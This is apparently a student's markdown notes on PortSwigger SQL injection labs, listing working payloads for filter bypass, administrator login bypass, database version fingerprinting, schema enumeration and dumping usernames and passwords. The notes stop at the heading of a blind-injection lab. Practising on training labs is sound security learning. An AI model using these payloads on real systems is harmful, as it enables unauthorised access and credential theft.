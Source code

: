 https://portswigger.net/web-security/sql-injection 
https://portswigger.net/web-security/sql-injection/blind
https://portswigger.net/web-security/sql-injection/cheat-sheet
## Labs:
## 1. SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

SQL injection attack that causes the application to display one or more unreleased products.

	SELECT * FROM products WHERE category = ' OR 1=1--

```
	.../filter?category= ' OR 1=1--
```

## 2. SQL injection vulnerability allowing login bypass

SQL injection attack that logs in to the application as the `administrator` user.

```
.../my-account?id=administrator'--
```

## 3. SQL injection querying the database type and version on Oracle

 ```
 'UNION SELECT'a','b' FROM dual--
```

 Display the database version:
```
 'UNION SELECT 'a', banner FROM v$version--
```

## 4. SQL injection attack, querying the database type and version on MySQL and Microsoft

In Microsoft database we can payload without to specify FROM table, instead we can comment with "#" right after selected columns:
 ```
 'UNION SELECT'a','b'#
```

 Display the database version:
```
 'UNION SELECT 'a', @@version#
 ```

## 5. SQL injection attack, listing the database contents on non-Oracle databases

```
' UNION SELECT 'abc','def'--
```

Retrieve the list of tables in the database and find the name of the table containing user credentials
```
' UNION SELECT table_name, null FROM information_schema.tables--
```

Replacing the table name to retrieve the details of the columns in the table:
```
' UNION SELECT column_name, null FROM information_schema.columns WHERE table_name='users_abcdef'--
```

Replacing the table and column names to retrieve the usernames and passwords for all users:
```
' UNION SELECT username_abcdef, password_abcdef FROM users_abcdef--
```

## 6. SQL injection attack, listing the database contents on Oracle

```
' UNION SELECT 'a', 'b' FROM all_tables--
```

```
' UNION SELECT 'a', table_name FROM all_tables--
```

```
' UNION SELECT 'a', column_name FROM all_tab_columns WHERE table_name='USERS_EIEFAP'--
```

```
' UNION SELECT USERNAME_LFECQG, PASSWORD_MSPEUR FROM USERS_EIEFAP--
```

## 7. SQL injection UNION attack, finding a column containing text

```
' UNION SELECT 'qHuBUo',null,null FROM information_schema.tables--
```

```
' UNION SELECT null,'qHuBUo',null FROM information_schema.tables--
```

```
' UNION SELECT null,null,'qHuBUo' FROM information_schema.tables--
```


## 8. SQL injection UNION attack, retrieving data from other tables

```
' UNION SELECT null,null--
```

```
' UNION SELECT null, table_name FROM information_schema.tables--
```

```
' UNION SELECT null, column_name FROM information_schema.columns WHERE table_name='users'--
```

```
' UNION SELECT username, password FROM users--
```

## 9. SQL injection UNION attack, retrieving multiple values in a single column

```
' UNION SELECT 'a',null--   ERROR 500 (first position is not string based)
```

```
' UNION SELECT null,'a'--   ERROR 200 (so only the second one is)
```

In order to retrieve data we need to do that only on the second position using concatenation:
![[Pasted image 20240627154432.png]]
```
(...)

' UNION SELECT null, username|| '-' ||password FROM users--
```

			![[Pasted image 20240627154411.png]]
			

## 10. Blind SQL injection with conditional responses
